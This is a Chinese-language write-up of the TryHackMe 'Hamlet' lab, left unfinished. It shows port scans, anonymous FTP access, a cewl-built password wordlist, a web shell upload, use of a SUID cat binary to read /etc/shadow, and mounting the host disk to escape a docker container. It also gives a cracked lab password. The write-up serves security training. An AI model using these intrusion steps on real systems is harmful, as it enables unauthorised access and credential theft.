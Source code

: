 ```yaml
---
sidebar_position: 150
tags: [Easy, Linux, 文件上传, SUID, docker, 未完成]
title: "Hamlet"
description: "Hamlet"
sidebar_label: "Hamlet"
slug: /tryhackme/150
---
```


# Hamlet

## 端口扫描

```php
root@ip-10-10-77-80:~/hamlet# nmap -sTCV -p 21,22,80,501,8000,8080 --min-rate 1000 10.10.136.28

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-06 04:51 BST
Nmap scan report for ip-10-10-136-28.eu-west-1.compute.internal (10.10.136.28)
Host is up (0.00028s latency).

PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxr-xr-x    1 0        0             113 Sep 15  2021 password-policy.md
|_-rw-r--r--    1 0        0            1425 Sep 15  2021 ufw.status
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.77.80
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a0:ef:4c:32:28:a6:4c:7f:60:d6:a6:63:32:ac:ab:27 (RSA)
|   256 5a:6d:1a:39:97:00:be:c7:10:6e:36:5c:7f:ca:dc:b2 (ECDSA)
|_  256 0b:77:40:b2:cc:30:8d:8e:45:51:fa:12:7c:e2:95:c7 (EdDSA)
80/tcp   open  http       lighttpd 1.4.45
|_http-server-header: lighttpd/1.4.45
|_http-title: Hamlet Annotation Project
501/tcp  open  tcpwrapped
8000/tcp open  http       Apache httpd 2.4.48 ((Debian))
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 500 
|     Content-Type: application/json;charset=UTF-8
|     Date: Fri, 06 Oct 2023 03:51:35 GMT
|     Connection: close
|     {"timestamp":1696564296315,"status":500,"error":"Internal Server Error","exception":"org.springframework.security.web.firewall.RequestRejectedException","message":"The request was rejected because the URL contained a potentially malicious String "%2e"","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 302 
|     Set-Cookie: JSESSIONID=D6D0262F1DC8DF0DDCB36DE0D977D15A; Path=/; HttpOnly
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: SAMEORIGIN
|     Location: http://localhost:8080/login.html
|     Content-Length: 0
|     Date: Fri, 06 Oct 2023 03:51:35 GMT
|     Connection: close
|   HTTPOptions: 
|     HTTP/1.1 302 
|     Set-Cookie: JSESSIONID=73618669873A8066F2B2FBA661278187; Path=/; HttpOnly
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Cache-Control: no-cache, no-store, max-age=0, must-revalidate
|     Pragma: no-cache
|     Expires: 0
|     X-Frame-Options: SAMEORIGIN
|     Location: http://localhost:8080/login.html
|     Content-Length: 0
|     Date: Fri, 06 Oct 2023 03:51:35 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Fri, 06 Oct 2023 03:51:35 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400
```

## 21

存在 FTP 的匿名身份登陆我们可以从这里登陆, 我们可以从其中得到两个文件:

- password-policy.md   : 密码策略, 告诉我们 密码全部小写 12-14
- ufw.status : 端口开放状态估计是内网的东西

```php
root@ip-10-10-77-80:~/hamlet# ftp 10.10.136.28
Connected to 10.10.136.28.
220 (vsFTPd 3.0.3)
Name (10.10.136.28:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive  # 需要开启被动模式
Passive mode on.
ftp> ls -al
227 Entering Passive Mode (10,10,136,28,197,89).
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 Sep 15  2021 .
drwxr-xr-x    2 0        114          4096 Sep 15  2021 ..
-rwxr-xr-x    1 0        0             113 Sep 15  2021 password-policy.md  
-rw-r--r--    1 0        0            1425 Sep 15  2021 ufw.status
```

## 80

```php
root@ip-10-10-77-80:~/hamlet# gobuster dir -u http://10.10.136.28/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.136.28/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/10/06 04:54:07 Starting gobuster
===============================================================
/index.html (Status: 200)
/robots.txt (Status: 200)
/hamlet.txt (Status: 200)
/%7Echeckout%7E (Status: 403)
===============================================================
2023/10/06 04:55:17 Finished
===============================================================
```

访问界面, 我们可以从界面的内容中确定以下事情:

- 用户名 : ghost
- 作者对 hamlet 痴迷, 结合之前 FTP 的知识我们获取可以借此来创建密码文件

![image-20240709182927533](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182928.png)

## 8000

```php
root@ip-10-10-77-80:~/hamlet# gobuster dir -u http://10.10.136.28:8000/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.136.28:8000/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/10/06 04:58:07 Starting gobuster
===============================================================
/index.html (Status: 200)
/db (Status: 301)
/repository (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/06 05:04:24 Finished
===============================================================
```

根据题目的, 询问我们 michael 的密码, 我们可以基于上面的密码策略创建密码库进行测试 [WebAnno Pentesting | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/webanno-pentesting/)

```php
root@ip-10-10-77-80:~/hamlet# cewl http://10.10.136.28/hamlet.txt | tr '[:upper:]' '[:lower:]' | awk 'length($0)>=12 && length($0)<=14' | sort -u > wordlist.txt
```

![image-20240709182938130](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-182939.png)



## 后渗透

### www-data(docker)

访问我们上传的 Shell 

![image-20240709183009846](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-183011.png)

### www-data(docker) —> root(docker)

我发现在系统中存在一个 SUID 程序 [cat#suid](https://gtfobins.github.io/gtfobins/cat/#suid)

![image-20240709183020384](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-183021.png)

我们可以使用此来读取 shadow 来进行破解密码 (这里你要使用最新版的 John 否则可能不太行) 这里我并没有解密出来, 因为自己的环境全部G了, 寻找后发现明文 `murder`

![image-20240709183049013](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-183050.png)

 ### root(docker) —> root

如果此时查看 dev 目录你会发现其中存在一个 `dm-0` 我们可以将其挂载到本地

```php
root@66505608bd11:/dev#  mkdir /mnt/mydevice
root@66505608bd11:/dev#  mount /dev/dm-0 /mnt/mydevice
root@66505608bd11:/dev# cd /mnt/mydevice/
root@66505608bd11:/mnt/mydevice# ls -al
total 4015224
drwxr-xr-x 24 root root       4096 Sep 15  2021 .
drwxr-xr-x  1 root root       4096 Oct  6 07:49 ..
drwxr-xr-x  2 root root       4096 Sep 15  2021 bin
drwxr-xr-x  2 root root       4096 Sep 15  2021 boot
drwxr-xr-x  2 root root       4096 Sep 15  2021 cdrom
drwxr-xr-x  4 root root       4096 Aug  6  2020 dev
```

